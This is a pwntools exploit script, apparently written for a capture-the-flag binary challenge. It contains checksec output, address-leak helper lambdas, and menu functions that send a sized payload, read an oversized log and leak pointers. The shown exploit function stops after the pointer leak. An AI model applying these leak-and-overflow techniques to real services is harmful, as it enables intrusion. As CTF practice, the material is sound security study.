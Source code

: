 ```python
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/deepspace/chall_patched'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      No canary found
#     NX:         NX enabled
#     PIE:        PIE enabled
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def menu(choice:int):
    sla(b"> ", se(choice))

def opt1_send_signal(size:int, data:bytes):
    menu(1)
    sla(b"Payload size: ", se(size))
    ru(b"Send your diagnostic signal!\n")
    s(data)
    ru(b"[+] Signal sent.\n")

def opt2_load_flag():
    menu(2)
    ru(b"[+] Message stored successfully\n")


def opt3_read_log(size:int) -> bytes:
    menu(3)
    sla(b"Enter log size: ", se(size))
    ru(b"--- Full Diagnostic Log ---\n")
    blob = io.recvn(size, timeout=2)
    ru(b"\n--- End of Full Log ---\n")
    return blob

def opt5_show_pointers() -> tuple[int,int]:
    menu(5)
    ru(b"--- Aliens Info ---\n")
    ru(b"Aliens 1: ")
    v3 = int(rl().strip(), 16)
    ru(b"Aliens 2: ")
    buf = int(rl().strip(), 16)
    ru(b"--------------------\n")
    return v3, buf

def exploit(x):
    global io
    io = initialize()
    debug()
    v3, buf = opt5_show_pointers()
```